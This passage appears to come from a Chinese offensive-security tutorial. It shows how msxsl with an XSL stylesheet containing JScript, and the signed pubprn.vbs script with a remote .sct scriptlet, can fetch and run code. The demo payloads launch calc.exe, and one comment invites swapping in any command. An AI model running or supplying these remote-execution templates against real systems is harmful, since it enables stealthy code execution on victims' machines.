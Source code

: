 ```bash
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml

```xml
<?xml version="1.0"?> 
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers> 
    <customer> 
 		<name>Microsoft</name>
    </customer>
</customers>
```

exec.xsl（这里以弹计算器为例）

```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="JScript" implements-prefix="user"> 
    function xml(nodelist) { var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");   # 这里修改为我们要执行的命令
    return nodelist.nextNode().xml; }
</msxsl:script> 
<xsl:template match="/"> 
<xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```





### 15.pubprn.vbs

在Windows 7以上版本存在一个名为`PubPrn.vbs`的微软已签名WSH脚本，其位于`C:\Windows\System32\Printing_Admin_Scripts\en-US`，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给`GetObject()`

```bash
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/xps/64acdkpodsk4566b04a/raw/a006a4 7e4075785016a62f7e5170ef36f5247cdb/test.sct
```

test.sct（和13一样，这里以弹计算器为例）

```xml
<?XML version="1.0"?> 
<scriptlet> 
<registration 
              description="Bandit" 
              progid="Bandit" 
              version="1.00" 
              classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}" 				                 remotable="true" >
</registration> 
<script language="JScript"> 
<![CDATA[ 
			var r = new ActiveXObject("WScript.Shell").Run("calc.exe"); 

]]> 
</script> 
</scriptlet>
```
